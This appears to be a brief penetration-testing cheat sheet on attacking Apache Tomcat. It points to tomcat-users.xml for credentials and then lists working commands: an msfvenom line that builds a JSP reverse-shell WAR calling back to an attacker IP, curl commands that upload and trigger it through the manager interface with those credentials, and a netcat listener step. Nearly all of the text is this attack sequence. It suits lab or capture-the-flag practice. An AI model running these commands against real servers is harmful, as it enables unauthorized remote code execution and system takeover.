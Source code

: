 Tomcat

## Username and password

- Written in ```tomcat-users.xml```. This works for me : ```/usr/share/tomcat9/etc/tomcat-users.xml```, but if not, try to install it with the version needed, and then see where it's stored.


## Upload reverse shell

- The best part of tomcat server is that the host-manager gives you facility to create, delete, and manage virtual hosts within Tomcat remotely via curl command through command line if you have creds.

- Create Reverse Shell : ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.197 LPORT=1234 -f war > shell.war```

- Upload Reverse Shell : ```curl -u 'user':'pass' -T shell.war 'http://ip:port/manager/text/deploy?path=/my-shell'```

- List Deployed Shell : ```curl -u 'user':'pass' http://ip:port/manager/text/list```

- Start Netcat Listener

- Execute the deployed shell : ```curl -u 'user':'pass' http://ip:port/my-shell/```